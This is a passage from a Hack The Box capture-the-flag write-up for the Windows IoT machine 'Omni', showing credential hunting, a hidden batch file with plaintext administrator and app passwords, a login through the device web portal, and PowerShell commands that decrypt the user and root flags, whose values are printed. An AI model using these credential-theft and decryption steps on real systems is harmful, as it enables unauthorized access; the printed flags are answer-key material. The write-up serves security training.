hardening.txt OMNI\Administrator NT AUTHORITY\SYSTEM Deny  Read, Synchronize...
```

haha so this file is locked so that it is owned by `Administrator`, but also so `NT AUTHORITY\SYSTEM` cannot read it...very odd

```text
PS C:\Data\Users\app> type iot-admin.xml
type iot-admin.xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">omni\administrator</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb010000009e131d78fe272140835db3caa28853640000000002000000000010660000000100002000000000855856bea37267a6f9b37f9ebad14e910d62feb252fdc98a48634d18ae4ebe000000000e80000000020000200000000648cd59a0cc43932e3382b5197a1928ce91e87321c0d3d785232371222f554830000000b6205d1abb57026bc339694e42094fd7ad366fe93cbdf1c8c8e72949f56d7e84e40b92e90df02d635088d789ae52c0d640000000403cfe531963fc59aa5e15115091f6daf994d1afb3c2643c945f2f4b8f15859703650f2747a60cf9e70b56b91cebfab773d0ca89a57553ea1040af3ea3085c27</SS>
    </Props>
  </Obj>
</Objs>
```

The `iot-admin.xml` file was another PowerShell credential file

```text
PS C:\Data\Users\app> $credential = Import-CliXml -Path C:\Data\Users\app\iot-admin.xml
$credential = Import-CliXml -Path C:\Data\Users\app\iot-admin.xml
Import-CliXml : Error occurred during a cryptographic operation.
At line:1 char:15
+ $credential = Import-CliXml -Path C:\Data\Users\app\iot-admin.xml
+               ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [Import-Clixml], Cryptographic 
   Exception
    + FullyQualifiedErrorId : System.Security.Cryptography.CryptographicExcept 
   ion,Microsoft.PowerShell.Commands.ImportClixmlCommand

PS C:\Data\Users\app> $credential = Import-CliXml -Path C:\Data\Users\app\user.txt
$credential = Import-CliXml -Path C:\Data\Users\app\user.txt
Import-CliXml : Error occurred during a cryptographic operation.
At line:1 char:15
+ $credential = Import-CliXml -Path C:\Data\Users\app\user.txt
+               ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [Import-Clixml], Cryptographic 
   Exception
    + FullyQualifiedErrorId : System.Security.Cryptography.CryptographicExcept 
   ion,Microsoft.PowerShell.Commands.ImportClixmlCommand
```

I still needed a key to decode these as well it seems

```text
PS C:\Data\Users\DevToolsUser> cd "C:\Program Files"
cd "C:\Program Files"
PS C:\Program Files> ls
ls


    Directory: C:\Program Files


Mode                LastWriteTime         Length Name                          
----                -------------         ------ ----                          
d-----       10/26/2018  11:37 PM                WindowsPowerShell             


PS C:\Program Files> cd WindowsPowerShell
cd WindowsPowerShell
PS C:\Program Files\WindowsPowerShell> ls
ls


    Directory: C:\Program Files\WindowsPowerShell


Mode                LastWriteTime         Length Name                          
----                -------------         ------ ----                          
d-----       10/26/2018  11:37 PM                Modules                       


PS C:\Program Files\WindowsPowerShell> cd Modules
cd Modules
PS C:\Program Files\WindowsPowerShell\Modules> ls
ls


    Directory: C:\Program Files\WindowsPowerShell\Modules


Mode                LastWriteTime         Length Name                          
----                -------------         ------ ----                          
d-----       10/26/2018  11:37 PM                Json.Net                      
d-----        8/21/2020  12:56 PM                PackageManagement             
d-----       10/26/2018  11:37 PM                Pester                        
d-----       10/26/2018  11:37 PM                PowerShellGet
```

After poking around in the user folders for a little bit and finding nothing useful, I decided to see what programs were installed. There was only PowerShell with a limited set of modules installed.

After searching through the files here I found nothing useful. There was also nothing interesting in netstat or services

### Finding user creds

After searching for a long time and not finding anything I started searching the user directories and Program Files for hidden files

```text
PS C:\Program files\WindowsPowerShell> ls -Recurse -Hidden
ls -Recurse -Hidden


    Directory: C:\Program files\WindowsPowerShell\Modules\PackageManagement


Mode                LastWriteTime         Length Name                          
----                -------------         ------ ----                          
-a-h--        8/21/2020  12:56 PM            247 r.bat
```

There were many many hidden files in the users directories, most of them were desktop.ini files and random config files in appdata. However, in the program files directory there was only one hidden file, and it contained some very useful information

```text
PS C:\Program Files\WindowsPowerShell\Modules\PackageManagement> type r.bat 
type r.bat
@echo off

:LOOP

for /F "skip=6" %%i in ('net localgroup "administrators"') do net localgroup "administrators" %%i /delete

net user app mesh5143
net user administrator _1nt3rn37ofTh1nGz

ping -n 3 127.0.0.1

cls

GOTO :LOOP

:EXIT
```

It looked like this batch script contained the passwords for both the `app` user and `administrator`!

[https://davidhamann.de/2019/12/08/running-command-different-user-powershell/](https://davidhamann.de/2019/12/08/running-command-different-user-powershell/)

> `powershell.exe -c "$user='WORKGROUP\John'; $pass='password123'; try { Invoke-Command -ScriptBlock { Get-Content C:\Users\John\Desktop\secret.txt } -ComputerName Server123 -Credential (New-Object System.Management.Automation.PSCredential $user,(ConvertTo-SecureString $pass -AsPlainText -Force)) } catch { echo $_.Exception.Message }" 2>&1`

```text
Get-Content C:\Data\Users\app\user.txt -Credential (New-Object System.Management.Automation.PSCredential $user,(ConvertTo-SecureString $pass -AsPlainText -Force))
```

```text
PS C:\Program Files\WindowsPowerShell\Modules\PackageManagement> Get-Content C:\Data\Users\app\user.txt -Credential (New-Object System.Management.Automation.PSCredential $user,(ConvertTo-SecureString $pass -AsPlainText -Force))
Get-Content C:\Data\Users\app\user.txt -Credential (New-Object System.Management.Automation.PSCredential $user,(ConvertTo-SecureString $pass -AsPlainText -Force))
The FileSystem provider supports credentials only on the New-PSDrive cmdlet. 
Perform the operation again without specifying credentials.
At line:1 char:1
+ Get-Content C:\Data\Users\app\user.txt -Credential (New-Object System ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotImplemented: (:) [], PSNotSupportedException
    + FullyQualifiedErrorId : NotSupported
```

hmm it seems like I cannot run commands as another user. I need to find a way to login as the other two users

```text
┌──(zweilos㉿kalimaa)-[~/htb/omni]
└─$ evil-winrm -i 10.10.10.204 -u app -p mesh5143                                

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

Error: An error of type WinRM::WinRMHTTPTransportError happened, message is Unable to parse authorization header. Headers: {"Server"=>"Microsoft-HTTPAPI/2.0", "Date"=>"Fri, 30 Oct 2020 08:04:35 GMT", "Connection"=>"close", "Content-Length"=>"0"}                                                                   
Body:  (404).                                                                                           

Error: Exiting with code 1
```

I tried logging in with WinRM but got an error. Looking at my nmap output again I remembered that there was that web portal I saw earlier

### Port 8080 - Web Portal



Logged in using `app`'s credentials.



Web portal for managing the IOT device



Apps running on the device



Running Processes



Found another password in the AllJoyn SoftAP settings



Device performance monitor



Was able to run commands directly in the portal.  Using the command `set` I was able to list all of the currently set environment variables, including the current user context I was running in.

## User.txt



Since I was running as `app` and could execute arbitrary commands I tried again to see if I could decrypt the user.txt flag.

```text
Command> powershell.exe Invoke-Command -ScriptBlock { $credential = Import-CliXml -Path C:\Data\Users\app\user.txt; $credential.GetNetworkCredential().Password }

7cfd50f6bc34db3204898f1505ad9d70
```

I was able to successfully decrypt the flag!

## Further Enumeration



next I cleared my cookies for the site, closed and reopened the browser, then logged in as `administrator` to see if the same process could be done for the `root.txt`



```text
Command> type C:\Data\Users\app\hardening.txt

- changed default administrator password of "p@ssw0rd"

- added firewall rules to restrict unnecessary services

- removed administrator account from "Ssh Users" group
```

Now that I was the administrator user I could read the hardening.txt file which contained the steps the Administrator had taken to hard the machine. I thought it was strange that this file would be locked so only the admin could read it, though it was is the `app` user's folder.

```text
Command> powershell.exe Invoke-Command -ScriptBlock { $credential = Import-CliXml -Path C:\Data\Users\app\iot-admin.xml; $credential.GetNetworkCredential().Password }

Import-CliXml : Error occurred during a cryptographic operation.

At line:1 char:45

+ ... redential = Import-CliXml -Path C:\Data\Users\app\iot-admin.xml; $cre ...

+                 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

    + CategoryInfo          : NotSpecified: (:) [Import-Clixml], Cryptographic 

   Exception

    + FullyQualifiedErrorId : System.Security.Cryptography.CryptographicExcept 

   ion,Microsoft.PowerShell.Commands.ImportClixmlCommand


You cannot call a method on a null-valued expression.

At line:1 char:98

+ ... sers\app\iot-admin.xml; $credential.GetNetworkCredential().Password }

+                             ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

    + CategoryInfo          : InvalidOperation: (:) [], RuntimeException

    + FullyQualifiedErrorId : InvokeMethodOnNull
```

I still wasn't able to decode `iot-admin.xml` for some reason

## Root.txt



```text
Command> powershell.exe Invoke-Command -ScriptBlock { $credential = Import-CliXml -Path C:\Data\Users\administrator\root.txt; $credential.GetNetworkCredential().Password }

5dbdce5569e2c4708617c0ce6e9bf11d
```

I was able to get the root flag though!


Thanks to [`egre55`](https://app.hackthebox.eu/users/1190) for... \[something interesting or useful about this machine.\]

If you like this content and would like to see more, please consider supporting me through Patreon at [https://www.patreon.com/zweilosec](https://www.patreon.com/zweilosec).

